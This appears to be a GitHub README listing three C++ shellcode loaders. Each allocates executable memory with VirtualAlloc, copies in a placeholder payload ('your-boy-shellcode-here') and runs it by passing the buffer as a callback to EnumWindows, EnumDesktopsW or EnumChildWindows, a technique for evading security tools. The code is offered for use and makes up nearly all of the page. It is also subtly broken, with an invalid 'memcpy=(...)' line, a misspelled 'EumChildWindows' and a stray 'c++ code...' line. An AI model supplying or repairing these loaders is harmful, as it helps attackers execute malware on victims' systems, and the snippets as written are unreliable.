 
<p align="center">
  <img src="https://github.com/user-attachments/assets/8536b35b-ab41-40b7-9867-eee64d2bfc78" alt="Banner Screenshot 2025-09-15 at 11 23 31 PM" style="width:100%; max-width:1200px; height:auto;" />
</p>



---

---


---

## Enum Functions to Execute Shellcode
#### EnumWindows
```cpp
c++ code...
#include <windows.h>
#include <stdio.h>

int main(int argc, char *argv[]) {
	char shellcode[] = "your-boy-shellcode-here";

	HANDLE hAlloc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy=(hAlloc, shellcode, sizeof(shellcode));
	EnumWindows((WNDENUMPROC)hAlloc, NULL);
}
```

---
#### EnumDesktopsW

```cpp
#include <windows.h>
#include <stdio.h>

int main(int argc, char *argv[]) {
	char shellcode[] = "your-boy-shellcode-here";

	HANDLE hAlloc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy=(hAlloc, shellcode, sizeof(shellcode));
	EnumDesktopsW(GetProcessWindowStation(),(DESKTOPENUMPROCW) hAlloc, NULL);
}
```

---

#### EnumChildWindows

```cpp
#include <windows.h>
#include <stdio.h>

int main(int argc, char *argv[]) {
	char shellcode[] = "your-boy-shellcode-here";

	HANDLE hAlloc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy=(hAlloc, shellcode, sizeof(shellcode));
	EumChildWindows((HWND) NULL,(WNDENUMPROC) hAlloc,NULL);
}
```

---